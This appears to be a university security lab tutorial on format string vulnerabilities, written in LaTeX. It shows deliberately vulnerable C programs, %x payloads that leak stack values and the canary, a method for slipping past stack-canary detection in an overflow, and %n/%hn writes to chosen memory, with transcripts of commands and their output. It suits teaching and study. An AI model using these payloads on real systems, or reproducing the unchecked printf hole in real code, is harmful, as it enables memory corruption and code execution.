Now, I am going to ask you to draw the stack frame diagrams yourself just so you can keep up. If you are good at it then you should be able to visualize the stack anyways. I won’t draw it here. 
 
Given this program, we can just compile it and ignore the warning about format strings. This is a format string lab after all. 
 
Now that we have the program, you can try to execute it. 

\begin{note}
I have disabled ASLR for these examples. 
\end{note}

\begin{code} 
seed@SEED:~/TEST$ gcc format.c
format.c: In function 'main': 
format.c:10:5: warning: format not a string literal and no format arguments [-Wformat-security]
      printf(argv[1]); 
      ^ 
seed@SEED:~/TEST$ ./a.out  
seed@SEED:~/TEST$ ./a.out Hello 
Hello 
\end{code}
 
Alright so it works fine. What is the programming language that we are speaking of from before? 
 
The programming language that we are dealing with is the format string escape sequences. You can find the entire list in the man pages, but we are going to deal with three popular ones here \%x, \%s and \%n. 
 
\%x takes the next parameter on the stack and treats it as a long (4 bytes in 32-bit linux) and prints it out as hex. You can try \%hx for half a long (16 bits), \%8x to print out 8 characters or \%08x for 8 chars that is prepended with 0’s. Any one of the modifiers is fine, the important thing is you know what %x does. More info about modifiers can be found in {\em man 3 printf}
 
\%s takes the next 4 bytes from the stack and treats it as a pointer (i.e., an address) and treats that address as a {\tt char*} and prints it out to the screen. 
 
\%n takes the next 4 bytes from the stack and treats it as a pointer to an int (i.e., {\tt int*}) and stores the number of characters written out to the screen thus far using {\em printf} into that memory location. This is a great escape sequence because it is the only ``write'' operation that we have. The other ones are ``read'' operations. 
 
Given our knowledge, we can try things out using our simple program above. 
 
First, we can try it with a bunch of \%x's to see what happens. I separated them using a '.' for clarity but you can choose any character you want really (such as a , so it becomes a csv). 

\begin{code} 
seed@SEED:~/TEST$ ./a.out %x.%x.%x.%x.%x 
2f.b7e19dc8.b7fd7858.8000.b7fbf000
seed@SEED:~/TEST$  
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000 
\end{code}
 
As you can see, we also used our bash shell \$'X' trick to get escaped c-strings as input. The '\textbackslash n' at the end makes things easier to see. 
 
The first question that you should ask yourself is what we are seeing. If you think about it, we should see something from the stack at a higher address. We see something like addresses (the ones that start with 0xb7… but we can’t seem to be able to make much of it. The next thing that we can try is to see if we can add more \%x. In order to read more things from the stack. Let’s see what happens. 

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n'
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.cafebabe.6c6c6548.6f57206f.a646 c72.cc54a300 
\end{code} 

Now given the output above, we finally start to see something very interesting. We see {\tt cafebabe} at the 11th \%x. We also see some strange {\tt 6c6c6548} thing, which looks interesting. Given what we have learned about the stack layouts, we can conclude that the {\tt cafebabe} output is in fact the value of the local variable {\em i} on the stack. You can test this by making a change to the source code to a different initial value of {\em i}.  
 
Additionally, if you look deeper into {\tt 6c6c...} you will notice that this looks like ASCII and it is. That is the contents of the Hello World message that we stored into the hello buffer. Now if you are wondering why does the char array {\em hello} come before {\em i} even though we declared it afterwards? The compiler normally makes some decisions on how it wants to arrange local variables and sometimes it likes to arrange arrays together and then other variables. I don’t fully understand how it does things, so this is one of those cases where you should run experiments to see how the local variables are organized. Don’t just rely on the source code. 
 
Now we can continue down this track to see if there is anything else that we can see on the stack. I will let you try things out yourself instead. 
 
I will point out that there is something quite interesting in the output that we can only highlight if we execute the program multiple times as follows. 

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.cafebabe.6c6c6548.6f57206f.a646 
c72.5eb7b900 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.cafebabe.6c6c6548.6f57206f.a646 
c72.389ef600 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.cafebabe.6c6c6548.6f57206f.a646 
c72.63363000 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.cafebabe.6c6c6548.6f57206f.a646 
c72.50272900 
\end{code}
 
Look at the output and see if there are any values that change. If you look carefully you should see that it appears only the last output (the 15th \%x) changes value. It is also interesting that it appears the lowest byte is always {\tt 0} ({\tt 0x00}) but there doesn’t seem to be any pattern to the higher bytes.  
 
This last output is the stack canary or cookie. This is the value that is used to detect whether a stack overflow has occurred. Imagine if the buffer hello is vulnerable to a buffer overflow. What would happen if we overflowed it? 
 
If you look at the output the {\tt 6c6c...} is the start of the hello buffer. The further down the output the further up memory (down the stack) we go, inching closer and closer to the return address. So if there is indeed a buffer overflow, we will start to overwrite the buffer, then overwrite the stack canary and then overwrite the return address. Since the stack canary is a random value, it is hard for us to predict what value to overwrite and therefore we can’t pass this test. 
 
Stack canaries, as you can imagine, are only effective if we don’t know what the canary value is. A format string vulnerability allows us to read data off the stack and therefore we can use it to read the stack canary and perhaps use it later in a multi-vulnerability exploit. 
 
Before we see how this might work, we can first confirm that this is indeed a stack canary by looking a couple positions more into the stack. The canary should appear right before the saved ebp and the saved return address. The only problem is that main doesn’t use the standard function prolog. You can investigate this yourself if you wish. 
 
To see things more clearly, we can move the vulnerability into its own function. Additionally, we will make a slight change to the program as preparation for our the multi-vulnerability demonstration. 

\begin{code} 
#include <stdio.h> 
 
void f(char* argv1) 
{   
  int i = 0xCAFEBABE; 
  char hello[12] = "Hello World\n";  
  printf(argv1);  
  sleep(30); 
 
  FILE* fp = fopen("badinput.txt", "r");  
  if (fp != NULL)   
  {
    fread(hello, 32, 1, fp); 
    fclose(fp); 
  }     
  return; 
}   

int main(int argc, char** argv) 
{ 
  if (argc == 2) 
  {  
    f(argv[1]);
  }  
  return (0); 
} 
\end{code}
 
If we compiled and ran this one then we will see something like 

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
b7fff918.bffff020.80482b7.0.bffff0b4.b7fbf000.bffff2f8.ffffffff.2f.cafebabe.b7fd7858.6c6c6548.6f57206f.a64 
6c72.6fb51800.2.0.bffff068.8048606 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
b7fff918.bffff020.80482b7.0.bffff0b4.b7fbf000.bffff2f8.ffffffff.2f.cafebabe.b7fd7858.6c6c6548.6f57206f.a64 
6c72.d0283600.2.0.bffff068.8048606 
\end{code} 
 
Notice that there are a couple of extra bytes in between the canary and the saved ebp and the return address (the last two value). We can confirm that 0x8048606 is indeed the saved return address by checking the objdump. See how the instruction after the call is indeed 0x8048606 

\begin{code} 
seed@SEED:~/TEST$ objdump -d a.out | grep -A 1 "call.*<f>"  
 8048601: e8 35 ff ff ff call   804853b <f> 
 8048606: 83 c4 10 add    $0x10,%esp 
\end{code}
 
Now that we have everything together, we can run a couple of experiments. First, lets see what happens when we populate the file with random stuff. 

\begin{code} 
seed@SEED:~/TEST$ truncate --size 0 badinput.txt; for i in {1..9}; do echo -n $'\xca\xfe\xba\xbe' >> badinput.txt; done 
seed@SEED:~/TEST$ more badinput.txt  ������������������������������������ 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
b7fff918.bffff020.80482b7.0.bffff0b4.b7fbf000.bffff2f8.ffffffff.2f.cafebabe.b7fd7858.6c6c6548.6f57206f.a64 
6c72.64986800.2.0.bffff068.8048606 
*** stack smashing detected ***: ./a.out terminated 
Aborted (core dumped) 
\end{code}
 
The first compound bash command truncates the file {\em badinput.txt}, then fills it with 9 {\tt cafebabe}s (this is not exactly right as we will see in a little bit). The second command shows the file and then the third executes our vulnerable program. As you can see we have a message that states stack smashing detected. 
 
This means that the stack canary has changed due to our buffer overflow. You can verify this by inserting another {\em printf(argv1)} right before the return statement for example. If you do this, then you should see that the canary has changed to {\tt 0xbebafeca}.  
 
Now to see how we might use the format string to our advantage, we can open up a new terminal and execute a.out in that window. We can then read out the canary value out and then insert it into our little compound script in another window to populate the badinput.txt with the canary value. If we do things right, then we should expect the canary value to remain intact but the return value is now overwritten with the same canary value and thus cause a segmentation fault. 
 
Here is an attempt. First window 

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
b7fff918.bffff050.80482b7.0.bffff0e4.b7fbf000.bffff31b.ffffffff.2f.cafebabe.b7fd7858.6c6c6548.6f57206f.a64 
6c72.fbd16500.2.0.bffff098.8048606 
*** stack smashing detected ***: ./a.out terminated 
Aborted (core dumped) 
\end{code}
 
Second window - we ran this by reading the canary value {\tt 0xfbd16500} from the output and then inserting it into our script while the program is sleeping. 

\begin{code} 
seed@SEED:~/TEST$ truncate --size 0 badinput.txt; for i in {1..9}; do echo -n $'\xfb\xd1\x65\x00' >> badinput.txt; done 
\end{code}
 
Hmm. It didn't work. Let’s try again. 
 
First: 

\begin{code}
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
b7fff918.bffff050.80482b7.0.bffff0e4.b7fbf000.bffff31b.ffffffff.2f.cafebabe.b7fd7858.6c6c6548.6f57206f.a64 
6c72.7a881300.2.0.bffff098.8048606 
\end{code}
 
Second 

\begin{code} 
seed@SEED:~/TEST$ truncate --size 0 badinput.txt; for i in {1..9}; do echo -n $'\x00\x13\x88\x7a' >> badinput.txt; done 
\end{code}

It is interesting that the program didn't crash. I expected a segmentation fault, but we didn't get it. The good news is that we didn't get a stack smashing detected error. Notice the 
difference in how I inserted the canary in reverse order this second time - we do this because of i386’s use of little endian. 
 
I will let you fiddle with the program (e.g. increase the number of bytes read) as well as play around a little bit yourself in order to attain the segmentation fault that we were expecting. Have you figured out why it didn't crash yet? Do you see how we are not actually overwriting the return address? 
 
The magic of \%n.  
 
The previous example only used \%x to read a number of values from the stack. We were then able to find the stack canary, read it out and then used it as part of our buffer overflow and thus evaded the stack smashing detection.  
 
Now we will try to have a little bit more fun with \%n. To do this we will introduce a new program as follows. 

\begin{code} 
#include <stdio.h> 
 
int main(int argc, char** argv) 
{ 
  int i = 0x45424142; 
  int* ip1 = &i; 
  char* ip2 = (char*)(&i); 
  unsigned int ip3 = (unsigned int)(&i); 
 
  if (argc == 2) 
  { 
    printf(argv[1]); 
  } 
  return (0); 
} 
\end{code}
 
In this program, I did a few things on purpose. The first is I created an {\em int} pointer, {\em char} pointer an unsigned int all initialized with the value of the address of {\em i}. I did this to demonstrate that it doesn’t matter what the type is in C, when it comes to the computer itself, the value is interpreted by the instruction. In the case of \%n, the value will be interpreted as an {\em int*} and in the case of \%s it will be interpreted as a {\em char*}. Therefore, don’t get stuck on the types. The CPU doesn’t care about  high level types. 
 
If we compiled this program and executed the same input as we did previously we see something like this: 
\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142.bffff04c.bffff04c.bffff04c. 
ee862b00 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142.bffff04c.bffff04c.bffff04c. 
96cabc00 
\end{code}
 
Notice how we see {\em 0xbffff04c} three times, each corresponding to one of the {\em ip}s in the source. Type doesn’t matter. 
 
Since we know that the 12, 13 and 14th \%x is reading the {\em ip}s off the stack, we can also reinterpret them as c-strings instead of longs. What I mean by this is we can change the 14th \%x into \%s for example. 

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142.bffff04c.bffff04 
c.BABEL���L���L���.1a42d000 
\end{code}
 
Notice how we now see {\tt BABEL...} instead of {\tt bffff04c}. This is expected because {\tt 0x45424142} is {\tt BABE} in reverse order (little endian again). Why do we see an {\tt L}? That is because {\tt 0x4C} (the lowest byte of the address (the next byte on the stack) is the ASCII for the letter 'L'. 
 
But the purpose of this exercise is to try \%n. So let’s do it. 
 
You can try to change the 14th \%x into a \%n, but we won’t do that. Instead we will change the 12th one.  

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n.%x.%x.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142..bffff04c.bffff0 
4c.bfb5a900 
\end{code}
 
Notice how nothing seemed to have changed in the output except we have two dots after {\tt 0x45424142}. This should make sense since \%n only stores the number of characters written out so far into the int pointed to by that address (that is {\em *ip = count}). Nothing is written out.  
 
So how do we see if it worked? We have already done this before. We can use a \%s to use one of the other addresses to treat it as a c-string and print it out. Thus, let’s combine the two previous inputs and change the 12th \%x into \%s, the 13th into \%n and the 14th into \%s. 

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s.%n.%s.%x\n' 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142.BABEL���L���L�� 
�..\.c50b7100 
\end{code} 
 

 
 
Notice how the first time we printed out the contents as a c-string we get the BABEL… as before, but the second time we get this funny '\textbackslash' character. Why '\textbackslash'? If our understanding of \%n is correct, then '\textbackslash' should be the ASCII character that corresponds to the number of characters printed out by the time we get to the \%n. I’ll let you verify this yourself by counting the number of characters in \inlinedcode{2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142.BABEL���L ���L���.} (NOTE: the ? should only count as 1 character. So be careful when you are counting.) 
 
At this point we now know that if we have an address on the stack then we can use a \%n to write the number of characters to the location of that address. If only we can control the number of characters written right? 
 
We can control the number of characters written by using \%\#x for example where \# is a number. 
 
The example below illustrates this by forcing the first value to be printed in the default (2) then 3 and then 4 character spaces. You can see how the value changes from K to L to M which is expected. 
\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n.%s.%x.%x\n'
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd2 44.bffff114.2.0.b7e3ba30.45424142..K.bffff04c.6f78db00 
seed@SEED:~/TEST$ ./a.out $'%3x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n.%s.%x.%x\n'  
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142..L.bffff04c.d6c56400 
seed@SEED:~/TEST$ ./a.out $'%4x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n.%s.%x.%x\n'   
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142..M.bffff04c.139d0300 
\end{code} 

In fact, we can make the contents of {\em i} be anything that we want. For example, we can have it say {\tt Hi}. To do this, we must figure out how many characters we need to get to the equivalent of {\tt Hi}. 
 
{\tt Hi} in ASCII is {\tt 0x48}, {\tt 0x69}. Once again, because of little endian we actually want {\tt 0x6948} which is the same as {\tt 26952} in decimal. That is, if we have printed out 26952 characters by the time the printf function reaches the \%n, then we should be able to write the value {\tt 0x6948} into the memory location pointed to by the current value on the stack. Given that the default input gives us 'K' which is 75 in decimal ASCII. We therefore need a total of 26952-75 = 26877 more characters.  
 
We can do this by taking a look at the output of the first \%x for example. It currently prints out 2 charts “2f” and thus if we need 26877 more characters than these two meaning we can change 
the first \%x into \%26879x. Doing so will give us a very long output and thus we will show only part of the output. 
\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%26879x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n.%s.%x.%x\n' 
 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142..Hi.bffff04c.60d8d200 
\end{code} 
Notice, how the value of {\em i} when printed out with \%s is now {\tt Hi}.  
 
What this means is that we can now control the actual value being written to a target memory address.  
 
Note that you are free to use other format string escape sequences aside from \%x. You can also use something like \%8x instead of \%x to ensure that we will always have 8 characters for each \%x no matter what. This helps if the value on the stack changes. For example if there is a value on the stack that was {\tt 0x41} one time and {\tt 0x4141} another, then the first time the \%x will print out {\tt 41} which is 2 characters and the second time it will print out {\tt 4141} which is 4. \%8x will always take 8 characters which makes it more predictable. 
 
Finally, you can try to play around with \%hn to overwrite 16-bits at a time. This is useful if you ever need to overflow. For example, how would we get the value of {\em i} to be {\tt 0x41} ('A') when our current input already takes up 75 spaces. We can do this by printing out so many characters that the lower 16 bytes of the {\em int} counter effectively overflows. That is instead of printing out {\tt 0x41} characters, we need to print out {\tt 0x10041} characters and then only write the 16 bits into the target address. 
 
For example 
\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%65528x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%hn.%s.%x.%x\n' 
 
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142..A.bffff04c.36a 
f5900 
\end{code} 

How do we control the address? 
 
The last question that we can ask is how does one control the address to be written? I will mainly leave this as an exercise to you. The main idea is to control a variable on the stack. For example, if you can imagine that the {\em i} variable was actually based on user input. If it was, then you would be able to write a value to “i” and then instead of changing the 12th \%x, you can use the 11th \%x (where {\em i} is) and change it to \%n for example. It doesn't have to be an int either, all you need to do is control something higher up in memory or equivalently lower in the stack. 
 
You should experiment with this. You should also try to overwrite a return address using format strings and thus execute arbitrary code as well. This is a bit more challenging but it can be fun. 


\bibliographystyle{acm}
\bibliography{NYUISP_Notes}
\end{document}
